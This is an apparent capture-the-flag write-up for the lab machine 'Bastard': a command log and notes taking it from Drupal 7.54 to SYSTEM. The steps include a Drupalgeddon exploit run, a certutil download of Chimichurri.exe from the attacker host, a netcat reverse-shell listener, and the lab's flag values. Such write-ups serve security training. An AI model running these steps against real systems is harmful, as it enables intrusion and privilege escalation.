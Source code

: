 # Bastard - Medium

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.9

nmap -p 80,135,49154 -Pn --script vuln 10.10.10.9

cmseek
#detects drupal cms on port 80

searchsploit drupal
#check for exploits for version 7

ruby 44449.rb

ruby 44449.rb http://10.10.10.9
#gives drupalgeddon shell

whoami
#iusr

systeminfo

#in attacker machine
vim sysinfo.txt
#copy systeminfo output of victim windows machine

python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2022-11-13-mssb.xls --systeminfo sysinfo.txt
#lists possible exploits

#trying MS10-059
#in attacker machine
python3 -m http.server

#setup listener
nc -nvlp 6666

#in victim shell
certutil -urlcache -f http://10.10.14.2:8000/Chimichurri.exe chimi.exe

.\chimi.exe 10.10.14.2 6666
#this gives us shell as SYSTEM on listener

whoami
#system
```

* Open ports & services:

  * 80 - http - Microsoft IIS httpd 7.5
  * 135 - msrpc - Microsoft Windows RPC
  * 49154 - msrpc - Microsoft Windows RPC

* Visiting the webpage on port 80 shows that it is using ```drupal```; we can confirm this with the help of ```cmseek``` tool.

* ```cmseek``` shows that the webpage is using Drupal version 7.54; we can look for exploits for this version then.

* Alternatively, we can Google for Drupal version 7 exploits - we get RCE exploits.

* Using a Ruby exploit from Exploit-DB, we manage to get shell as a low-priv user; we can begin enumeration now.

* We can use windows-exploit-suggester by getting ```systeminfo``` from the shell, and feeding the output to the Python script.

* On running the script, we get a list of possible exploits; usual practice is to start from the older ones.

* We can attempt for MS10-059 which allows privesc through ```Chimichurri.exe```.

* After downloading the .exe from GitHub, we can transfer it using ```certutil``` in victim shell, and Python server in attacker machine.

* After setting up our listener, and running the .exe with parameters required, we get reverse shell as System - we can read the flags now.

```markdown
1. User flag - 0797e510cc4518be6718d3055cfe53bc

2. Root flag - 100e1bddc77a9895bcfb427e1754e1f5
```
